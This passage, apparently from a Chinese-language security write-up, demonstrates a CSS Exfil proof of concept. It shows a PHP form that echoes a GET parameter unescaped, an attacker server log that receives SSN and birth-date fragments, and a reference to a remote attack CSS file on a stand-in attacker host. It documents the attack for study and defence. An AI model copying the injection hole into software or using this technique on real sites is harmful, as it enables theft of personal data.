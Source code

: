 ```html
                </div>

                XSS Field: <input name="xss" value="<?php echo $_GET["xss"] ?>"/>

                <div class="fields-note">
                    <div>
                        <em>Provide your e-mail address for faster results!</em>
                    </div>
                </div>

                <div class="fields-last">
                    <div class="col">
                        <label>Email address:</label>
                        <input name="email" type="text">
                    </div>
                    <div class="col">
                        <label>Confirm email address</label>
                        <input name="emailConfirm" type="text">
                    </div>
                 </div>

                 <div>
                    <input id="submit_form" type="submit" value="submit" />
                 </div>
        </div>
    </form>
</body>
</html>
```

当访问易受攻击的URL后攻击者的远程服务器会收到以下调用：

```txt
127.0.0.1 - - [31/Jan/2018:19:45:41 -0500] "GET /Jan HTTP/1.1" 404 22
127.0.0.1 - - [31/Jan/2018:19:45:41 -0500] "GET /31 HTTP/1.1" 404 22
127.0.0.1 - - [31/Jan/2018:19:45:41 -0500] "GET /1975 HTTP/1.1" 404 22
127.0.0.1 - - [31/Jan/2018:19:45:41 -0500] "GET /ssn6789 HTTP/1.1" 404 22
127.0.0.1 - - [31/Jan/2018:19:45:41 -0500] "GET /ssn45 HTTP/1.1" 404 22
127.0.0.1 - - [31/Jan/2018:19:45:41 -0500] "GET /ssn123 HTTP/1.1" 404 22
```

装配数据

```txt
01/31/1975   # /Jan /31 /1975
123-45-6789  # /ssn123 /ssn45 /ssn6789
```

![css-exfil-poc5](css-exfil-poc5.png)

上面的例子灵感是来源于我遇到的一个真实案例,并容易使用的代码注入缺陷: 
1)包括一个远程的CSS文件((hxxp://attack[.]host/poc5-css.php) 
2)改变页面出现形式是一个两步的过程,所以用户必须提交表单继续输入数据。在重新加载时，先前输入的数据出现在加载满足条件#1的页面上。由于可以对目标数据进行假设，因此页面上只需要显示6个DOM元素(表单中针对的6个输入框)。由于数字数据(例如SSN、出生日期、信用卡数据)依赖于一个小字母表，所以CSS Exfil是一个特别有效和现实的攻击场景。
